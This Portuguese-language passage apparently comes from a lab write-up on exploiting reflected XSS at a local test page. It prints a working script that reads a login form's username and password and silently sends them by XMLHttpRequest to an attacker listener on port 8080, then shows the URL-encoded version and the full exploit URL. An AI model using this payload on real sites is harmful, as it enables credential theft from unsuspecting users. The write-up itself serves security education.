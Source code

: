 Embora o nome sugira que ele é usado para buscar apenas dados XML, na prática, ele pode ser usado para buscar qualquer tipo de dados, incluindo texto simples, JSON, e até mesmo arquivos binários.

#### Exploração

Assim com a *task* anterior, é necessário um tempo mínimo de espera para que o script malicioso entra em ação, portanto ainda precisamos do `setTimeout()`.

Porém, o `XMLHttpRequest()` nos permitirá ser mais *stealth*, uma vez que suas requisições não redirecionam o navegador, e acontecem sem que o usuário perceba.

Desta vez, não será necessário submeter o formulário para a máquina sob controle do atacante, ao invés disso, podemos simplesmente capturar os valores dos campos de usuário e senha, e fazer o *request* de forma silenciosa.

```html
<script>
	window.setTimeout(function() {
		username = document.forms[0].elements[0].value;
		password = document.forms[0].elements[1].value;
		var req = new XMLHttpRequest();
		req.open("GET", "http://0.0.0.0:8080/?username="+username+"&password"+password, true);
		req.send(); 
	}, 3000);
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09window.setTimeout%28function%28%29%20%7B%0A%09%09username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09var%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09req.open%28%22GET%22%2C%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3Fusername%3D%22%2Busername%2B%22%26password%22%2Bpassword%2C%20true%29%3B%0A%09%09req.send%28%29%3B%20%0A%09%7D%2C%203000%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/13/?search=%3Cscript%3E%0A%09window.setTimeout%28function%28%29%20%7B%0A%09%09username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09var%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09req.open%28%22GET%22%2C%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3Fusername%3D%22%2Busername%2B%22%26password%22%2Bpassword%2C%20true%29%3B%0A%09%09req.send%28%29%3B%20%0A%09%7D%2C%203000%29%3B%0A%3C%2Fscript%3E](http://localhost/13/?search=%3Cscript%3E%0A%09window.setTimeout%28function%28%29%20%7B%0A%09%09username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09var%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09req.open%28%22GET%22%2C%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3Fusername%3D%22%2Busername%2B%22%26password%22%2Bpassword%2C%20true%29%3B%0A%09%09req.send%28%29%3B%20%0A%09%7D%2C%203000%29%3B%0A%3C%2Fscript%3E)

Podemos iniciar um *Python server* na porta 8080 configurado para ouvir a requisição feita.

![Python server](/img/posts/2023-06-21-beyond-the-alert-36.png)
